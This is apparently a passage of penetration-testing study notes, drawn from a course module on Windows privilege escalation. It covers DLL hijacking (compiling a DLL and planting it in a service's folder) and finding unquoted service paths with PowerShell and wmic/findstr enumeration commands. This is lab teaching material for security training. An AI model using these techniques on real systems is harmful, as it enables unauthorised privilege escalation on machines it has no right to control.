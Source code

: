 ```c
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Now we can compile the dll with the following command: 
```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

And finally we just have to transfer the payload and place it in the folder we have previously located and restart/launch the service to trigger the dll
#### Unquoted Service Paths

Enumerate running and stopped services.

```shell
PS C:\Users\steve> Get-CimInstance -ClassName win32_service | Select Name,State,PathName 

Name                      State   PathName
----                      -----   --------
GammaService              Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

The output shows a stopped service named _GammaService_. The unquoted service binary path contains multiple spaces and is therefore potentially vulnerable to this attack vector. A more effective way to identify spaces in the paths and missing quotes is using the _WMI command-line_ (WMIC) utility. We can enter **service** to obtain service information and the verb **get** with **name** and **pathname** as arguments to retrieve only these specific property values. We'll pipe the output of this command to **findstr** with **/i** for case-insensitive searching and **/v** to only print lines that don't match. As the argument for this command, we'll enter **"C:\Windows\"** to show only services with a binary path outside of the Windows directory. We'll pipe the output of this command to another **findstr** command, which uses **"""** as argument to print only matches without quotes.

Let's enter this command in **cmd.exe** instead of PowerShell to avoid escaping issues for the quote in the second _findstr_ command.[4](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/leveraging-windows-services/unquoted-service-paths#fn4) Alternatively, we could use _Select-String_[5](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/leveraging-windows-services/unquoted-service-paths#fn5) in PowerShell.

```shell
C:\Users\steve> wmic service get name,pathname |  findstr /i /v "C:\Windows\" | findstr /i /v """
Name                                       PathName                                                          
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

The output of this command only lists services that are potentially vulnerable to our attack vector, such as GammaService. Before we go on, let's check if we can start and stop the identified service as _steve_ with **Start-Service** and **Stop-Service**.
